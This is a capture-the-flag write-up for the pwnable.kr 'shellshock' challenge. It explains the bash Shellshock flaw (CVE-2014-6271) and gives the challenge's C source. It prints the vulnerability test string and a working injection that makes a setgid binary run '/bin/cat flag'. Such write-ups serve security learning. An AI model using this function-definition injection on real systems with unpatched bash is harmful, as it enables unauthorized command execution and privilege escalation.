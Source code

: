 ```yaml
---
layout: post
title: "pwnable kr SHELLSHOCK"
author: "ron"
tags: ["web"]
---
```


## Summary
Mommy, there was a shocking news about bash. I bet you already know, but lets just make it sure :)

`ssh shellshock@pwnable.kr -p2222 (pw:guest)`

{% highlight markdown %}
shellshock@pwnable:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 116 root root             4096 Apr 17 14:10 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c

{% endhighlight %}

**shellshock.c**

{% highlight c %}
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}

{% endhighlight %}

[Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), Initial report [CVE-2014–6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271), is a bash vulnerability, where bash incorrectly executes the trailing commands when it imports the function stored into an env variable.

## shellshock example:


`env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`


### Solution:

{% highlight markdown %}
shellshock@pwnable:~$ which cat
/bin/cat
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)

{% endhighlight %}

